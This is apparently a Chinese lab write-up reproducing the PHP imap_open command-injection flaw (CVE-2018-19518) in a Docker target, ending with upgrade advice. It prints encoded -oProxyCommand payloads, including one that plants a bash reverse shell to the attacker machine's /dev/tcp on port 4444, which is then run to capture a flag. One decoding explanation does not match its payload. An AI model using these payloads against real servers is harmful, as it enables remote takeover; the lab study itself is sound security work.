# PHP imap 远程命令执行漏洞（CVE-2018-19518）

## 漏洞背景
PHP 的 imap_open 函数用于连接IMAP服务器以执行邮件收发操作。在某些Linux发行版（如Debian和Ubuntu）中，imap_open 函数会调用 rsh 来连接远程shell，但这些系统中 rsh 命令实际上是 ssh 命令的符号链接，imap_open 函数在将邮箱名称传递给 rsh 或 ssh 命令之前，没有正确过滤输入参数。攻击者可以通过构造恶意的IMAP服务器名称，注入 -oProxyCommand 参数

## 实验环境
- 靶机IP:192.168.157.131
- 攻击机IP:192.168.93.130

## 复现步骤
启动并进入环境
![](./img/启动环境.png)
![](./img/进入环境.png)

输入任意信息后进行抓包
![](./img/输入信息后抓包.png)

将hostname修改为
```
hostname=aaa+-oProxyCommand%3decho%09ZWNobyAnVGhpcyBpcyBhIHRlc3QhJz4vdG1wL3Rlc3Q%3d|base64%09-d|sh}&username=111&password=222
```
![](./img/构造恶意payload.png)
```
上述中x+-oProxyCommand%3decho%09ZWNobyAnVGhpcyBpcyBhIHRlc3QhJz4vdG1wL3Rlc3Q%3d|base64%09-d|sh}的意思如下:
使用url编码解码后x -oProxyCommand=echo ZWNobyAnMTIzNDU2Nzg5MCc+L3RtcC90ZXN0MDAwMQo=|base64 -d|sh}
ZWNobyAnMTIzNDU2Nzg5MCc+L3RtcC90ZXN0MDAwMQo=的意思是echo 'This is a test!'>/tmp/test
```

进入容器后查看tmp目录发现并查看test文件
```bash
sudo docker exec -it 8999591a03ad /bin/bash
root@8999591a03ad:/var/www/html# cd /tmp
root@8999591a03ad:/tmp# ls
flag-{bmh760e65be-84c5-4e7f-ba70-3cf421c2cc4e}  test
root@8999591a03ad:/tmp# cat test
This is a test!
root@8999591a03ad:/tmp#
```
![](./img/指令成功执行.png)

## 反弹shell
编写一段python脚本实现从原始shell命令到base64编码后输出结果为url编码
在前面以及解释过生成原理，故此处不再阐述
```
x+-oProxyCommand%3decho%09ZWNobyAiL2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguOTMuMTMwLzQ0NDQgMD4mMSIgPiAvdG1wLzEyMw==|base64%09-d|sh}
```
![](./img/编写脚本编码payload.png)
![](./img/修改hostname为payload.png)

再次进入容器发现以及成功写入脚本
![](./img/成功写入脚本.png)

攻击机上开启监听
![](./img/开启监听.png)

将hostname修改为x+-oProxyCommand%3decho%09L2Jpbi9iYXNoIC90bXAvMTIz|base64%09-d|sh}
该命令意思是/bin/bash /tmp/123，即启动之前注入的脚本
![](./img/再次修改hostname.png)

在send后攻击机成功反弹shell，并且进入tmp目录成功发现flag
![](./img/成功反弹shell.png)
![](./img/发现flag.png)

## 漏洞修复
**升级 php-imap 版本**
此漏洞已在较新版本的 php-imap / uw-imap 库中被修复：
对于使用 libc-client 的 php-imap 用户，可以升级到最新版 PHP 版本（>7.3.13 或 PHP 7.4+）确保底层的 uw-imap 库也更新（如果系统使用）
